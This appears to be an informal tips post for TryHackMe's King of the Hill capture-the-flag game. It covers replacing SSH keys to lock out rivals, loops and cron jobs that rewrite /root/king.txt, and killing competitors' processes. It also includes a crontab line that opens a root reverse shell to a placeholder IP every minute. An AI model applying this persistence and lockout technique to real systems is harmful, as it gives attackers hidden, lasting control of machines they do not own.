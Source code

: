 ## Simple Tricks I use While Playing King Of The Hill

Hey guys, hope you're doing well :) 

For those who are playing [TryHackMe](https://tryhackme.com) [king of the hill](https://www.tryhackme.com/games/koth)... 

These are some tips/tricks I usually do

First thing I do when I get into the machine is deleting ssh keys and put mine

To generate id_rsa & id_rsa.pub you could use ssh-keygen

Then, enter the machine using `ssh -i id_rsa remote_username@remote_host` 

using this simple trick only you can enter the machine using ssh...

To automate putting ur username inside king.txt and make sure that there's no username except yours,u can create a simple script to do that 

```
#!/bin/bash
while :
do
        eval "echo [usernameHere] >> /root/king.txt"
        eval " > /root/king.txt"
done

#this script is created in 1 min :P
```
or by simpler way
```
while [[ $(cat /root/king.txt) != "[usernameHere]" ]]; do echo "[usernamehere]" >> /root/king.txt; done

#this script is created in less than minute :P

```

also u can add your username automatically by putting inside /etc/crontab

`* * * * * echo "[usernameHere]" >> /root/king.txt >/dev/null 2>&1`

and below command can be used to get persistence on the system but run it after getting root access so every minute you can get shell as root in case of someone is trying to kill your terminal else if you do this without getting root you'll get shell as normal user not as root user
`* * * * * /bin/bash -c "/bin/bash -i >& /dev/tcp/[IP_ADDR]/4444 0>&1"`

So this one trick is to check, what loop is running if it is not yours then how you can find that loop and kill it<br>
<i><b>so for this you can check proccesses running on top in "top" command the running proccesses will be there with their PIDs</b></i>

<i><b>there is another version of htop is also available in our machines that is "htop" but "htop" may not be available on koth machines</b></i>


#SimpleButEffective
#staySafe
